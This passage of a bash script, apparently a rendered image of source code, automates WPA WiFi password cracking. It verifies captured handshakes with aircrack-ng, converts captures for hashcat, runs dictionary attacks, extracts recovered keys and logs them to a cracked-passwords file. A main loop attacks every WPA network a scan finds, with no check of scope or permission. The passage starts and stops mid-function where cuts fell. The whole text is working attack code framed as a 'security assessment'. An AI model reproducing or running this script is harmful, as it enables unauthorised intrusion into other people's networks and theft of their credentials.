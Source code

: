 ```bash
    # Check for handshake and attempt crack
    if [[ -f "$capture_file-01.cap" ]]; then
        if aircrack-ng -b "$bssid" "$capture_file-01.cap" | grep -q "1 handshake"; then
            log "Handshake captured for $essid. Starting dictionary attack..."
            
            # Convert for hashcat if available
            if command -v hcxpcapngtool &> /dev/null; then
                hcxpcapngtool -o "$capture_file.hc22000" "$capture_file-01.cap" 2>/dev/null || true
            fi
            
            # Dictionary attack with aircrack-ng
            if aircrack-ng -w "$WORDLIST" -b "$bssid" "$capture_file-01.cap" > "$capture_file-crack-result.txt" 2>&1; then
                if grep -q "KEY FOUND" "$capture_file-crack-result.txt"; then
                    local password=$(grep "KEY FOUND" "$capture_file-crack-result.txt" | cut -d'[' -f3 | cut -d']' -f1)
                    log "PASSWORD FOUND for $essid: $password"
                    echo "$essid,$bssid,$password" >> "$RESULTS_DIR/cracked-passwords.csv"
                else
                    warn "No password found for $essid with current wordlist"
                fi
            else
                warn "Dictionary attack failed for $essid"
            fi
        else
            warn "No handshake captured for $essid"
        fi
    else
        warn "No capture file created for $essid"
    fi
}

# Main execution
main() {
    log "Starting automated WiFi security assessment"
    log "Interface: $INTERFACE"
    log "Wordlist: $WORDLIST"
    log "Results directory: $RESULTS_DIR"
    
    # Check prerequisites
    if ! iwconfig "$INTERFACE" 2>/dev/null | grep -q "Mode:Monitor"; then
        error "Interface $INTERFACE is not in monitor mode"
        exit 1
    fi
    
    if [[ ! -f "$WORDLIST" ]]; then
        error "Wordlist not found: $WORDLIST"
        exit 1
    fi
    
    # Perform network scan
    scan_networks
    
    # Attack each WPA network found
    while IFS=',' read -r bssid channel essid encryption; do
        # Skip header and empty lines
        [[ "$bssid" == "BSSID" ]] && continue
        [[ -z "$bssid" ]] && continue
        
        attack_network "$bssid" "$channel" "$essid"
        
        # Brief pause between attacks
        sleep 10
```